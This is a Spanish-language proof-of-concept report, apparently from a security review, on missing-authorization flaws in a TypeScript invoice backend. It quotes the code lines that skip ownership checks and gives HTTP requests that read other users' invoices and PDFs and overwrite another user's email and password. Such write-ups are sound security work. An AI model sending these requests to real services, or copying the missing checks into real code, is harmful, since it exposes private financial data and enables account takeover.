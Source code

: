 # Prueba de Concepto - Missing Authorization

## Vulnerabilidad encontrada
Las vulnerabilidades de "Missing Authorization" ocurren cuando la aplicación no verifica adecuadamente si un usuario autenticado tiene permisos para acceder a recursos específicos. Aunque la aplicación valida que el usuario esté autenticado (tiene un token JWT válido), no verifica si ese usuario tiene derecho a acceder al recurso solicitado. Se encontraron vulnerabilidades de este tipo en los métodos `getInvoice` y `getInvoicePDF` del archivo `invoiceController.ts`. En los métodos `getInvoice` y `getReceipt` del archivo `invoiceService.ts`. En el método `updateUser` del archivo `authController.ts`. 

**Archivo vulnerable:** `services/backend/src/controllers/invoiceController.ts:44` (getInvoicePDF)
```typescript
    const invoiceId = req.params.id;
    const pdfName = req.query.pdfName as string | undefined;

    if (!pdfName) {
      return res.status(400).json({ error: 'Missing parameter pdfName' });
    }
    const pdf = await InvoiceService.getReceipt(invoiceId, pdfName);  
    // No valida si el usuario tiene autorización para descargar este PDF
```

**Archivo vulnerable:** `services/backend/src/controllers/invoiceController.ts:62` (getInvoice)
```typescript
    const invoiceId = req.params.id;
    const invoice = await InvoiceService.getInvoice(invoiceId); 
    // No valida si el usuario tiene autorización para acceder al invoice
```

**Archivo vulnerable:** `services/backend/src/services/invoiceService.ts:108` (getInvoice)
```typescript
    const invoice = await db<InvoiceRow>('invoices').where({ id: invoiceId }).first();  
    //Al solicitar el invoice nunca verifica desde la bd que sea un invoice del usuario
```
**Archivo vulnerable:** `services/backend/src/services/invoiceService.ts:117` (getReceipt)
```typescript
    const invoice = await db<InvoiceRow>('invoices').where({ id: invoiceId }).first();
    //Al solicitar el PDF del invoice nunca verifica desde la bd que sea del usuario
```

**Archivo vulnerable:** `services/backend/src/controllers/authController.ts:74` (updateUser)
```typescript
    const userId = req.params.id;
    const { username, password, email, first_name, last_name } = req.body;
    try {
    const user: User = {
      username,
      password,
      email,
      first_name,
      last_name
    };
    const userDB = await AuthService.updateUser(user);  
    // Al intentar modificar un usuario no valida si el usuario que lo solicita coincide con el que modifica
```

## Cómo explotar

### Un ejemplo de vulnerabilidad con los invoice

### Paso 1: Autenticarse como cualquier usuario
```http
POST /auth/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{
  "username": "atacante@example.com",
  "password": "password123"
}
```

### Paso 2: Usar el token para acceder a facturas de otros usuarios
```http
GET /invoices/FACTURA_ID_CUALQUIERA HTTP/1.1
Host: localhost:3000
Authorization: Bearer TOKEN_OBTENIDO
```

### Paso 3: Descargar PDFs de facturas ajenas
```http
GET /invoices/FACTURA_AJENA/invoice?pdfName=recibo_confidencial.pdf HTTP/1.1
Host: localhost:3000
Authorization: Bearer TOKEN_OBTENIDO
```

### Un ejemplo de vulnerabilidad modificando los datos de un usuario

### Modificar datos de cualquier usuario
```http
PUT /users/ID_USUARIO_VICTIMA HTTP/1.1
Host: localhost:3000
Authorization: Bearer TOKEN_CUALQUIER_USUARIO
Content-Type: application/json

{
  "email": "atacante@malicioso.com",
  "password": "nueva_password",
  "first_name": "Atacante",
  "last_name": "Malicioso"
}
```

## Impacto
- Acceso a invoices de otros usuarios. Un usuario podría ver y descargar facturas de cualquier otro.
- Modificación de cuentas ajenas.
- Datos sensibles en documentos pueden estar expuestos